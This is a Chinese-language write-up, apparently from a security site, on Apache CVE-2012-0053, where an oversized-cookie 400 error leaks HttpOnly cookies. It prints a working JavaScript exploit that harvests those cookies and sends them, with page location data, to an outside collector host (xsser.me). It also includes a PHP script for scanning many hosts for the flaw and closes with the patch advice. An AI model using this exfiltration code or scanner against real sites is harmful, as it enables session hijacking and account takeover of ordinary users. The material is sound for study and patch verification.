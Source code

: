# CVE-2012-0053详解

0x00 背景
-------

* * *

Apache服务器2.2.0-2.2.21版本存在一个漏洞（CVE-2012-0053），攻击者可通过给网站植入超大的Cookie，使得HTTP头超过apache的LimitRequestFieldSize（最大请求长度）4192字节，apache便会返回400错误，状态页中就包含了http-only保护的cookies。

0x01 详情
-------

* * *

老外在exploit-db上公布了测试apache站点是否有这个问题的js代码。

[http://www.exploit-db.com/exploits/18442/](http://www.exploit-db.com/exploits/18442/)

代码稍微改一下就可以是一个收取cookie的exp了，看一下xsser.me的模块：

```
function setCookies() {
    /*apache server limit 8192*/
    var str = "";
    for (var i = 0; i < 819; i++) {
        str += "x";
    }
    for (i = 0; i < 10; i++) {
        var cookie = "ray" + i + "=" + str + ";path=/";
        document.cookie = cookie;
    }
}
function parseCookies() {
    if (xhr.readyState === 4 && xhr.status === 400) {
        var content = xhr.responseText.replace(/\r|\n/g, '').match(/<pre>(.+)<\/pre>/);
        content = content[1].replace("Cookie: ", "");
        cookies = content.replace(/ray\d=x+;?/g, '') try {
            var myopener = '';
            myopener = window.parent.openner.location;
            var myparent = '';
            myparent = window.parent.location;
        } catch(err) {
            myopener = '0';
            myparent = '0';
        }
        window.location = 'http://xsser.me/index.php?do=api&id={projectId}&location=' + escape(document.location) + '&toplocation=' + escape(myparent) + '&cookie=' + escape(cookies) + '&opener=' + escape(myopener);
    }
}
setCookies();
var xhr = window.XMLHttpRequest ? new XMLHttpRequest() : window.ActiveXObject ? new ActiveXObject("Microsoft.XMLHTTP") : new XMLHttpRequest();
xhr.onreadystatechange = parseCookies;
xhr.open("POST", "/?" + Math.random(), true);
xhr.send(null);

```

在执行这段代码后，会种下10个819字节长的cookie，使得请求头超过最大请求长度，然后发起一次POST请求，待服务器返回400错误后从状态页中正则提取出经http-only保护的cookies。

![2013081413015999698.png](http://drops.javaweb.org/uploads/images/ad1a7e8fafe582d10864d9520cf0844830e33faf.jpg)

0x02 危害
-------

* * *

关于此漏洞的利用，乌云上也有相关案例，如：

[WooYun: 腾讯分站 Apache 漏洞](http://www.wooyun.org/bugs/wooyun-2012-06947)

其实最经典的案例要数这个了：

[WooYun: XSS漏洞渗透新浪微博《头条新闻》账号](http://www.wooyun.org/bugs/wooyun-2012-09777)

微博本身重要的cookie都设置了httponly，但是有一个域名下有这个apache漏洞。

刚好也有一个flash的xss，导致了此事件的发生。

0x03 后续
-------

* * *

这个漏洞再次证明了：

本来是一个正常的功能，可因为设计不当成了XSS的帮凶。

下面的代码是之前的简单的写了一个验证是否存在这个漏洞的php脚本。

各位有需要的可以拿去使用下，现在估计存在这个问题的不多了，去年刚出来的时候可是大片存在。

```
<?php

//生成构造特殊cookie
function cookie () {
    $str = "";
    for ($i=0; $i< 819; $i++) {
        $str .= "x";
    }
    $cookie= "secdragon=secdragon;path=/";
    for ($i = 0; $i < 10; $i++) {
         $cookie .= "xss".$i."=".$str.";path=/";
    }
    return $cookie;
    }

//获取url，发包判断返回状态及结果
function my_get_http_result($url){
    if (empty($url)){
      return false;
    }
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "$url");
    curl_setopt($ch, CURLOPT_TIMEOUT, 30); 
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);
    curl_setopt($ch, CURLOPT_COOKIE, cookie());
    $result = curl_exec($ch);
    $info = curl_getinfo($ch);
    curl_close($ch);
    if( $info['http_code'] == "400" )
        return $result;
    else{
        return '';
    }
}

//判断是否成功获取cookie
function check($url){
    $a=my_get_http_result($url);
    if(strpos($a,'secdragon=secdragon'))
        echo $url.':success!'."<br/>";
    else{
        echo $url.':failed!'."<br/>";
    }
}

//获取需检测ip，也可将ip放在同目录下的ip.txt中，一行一个ip
$url=(@$_GET['url'])?$_GET['url']:@$argv[1];
if(!$url){
    $fp=fopen('ip.txt','r+');
    while($ipstr=fgets($fp)){
        if(preg_match('#[\w\.]+#',$ipstr,$match)){
            check($match[0]);
        }
    }
}else{
    check($url);
}

?>

```

0x04修复方式
--------

Apache2.2.22及以上版本已经修复此问题，升级即可解决。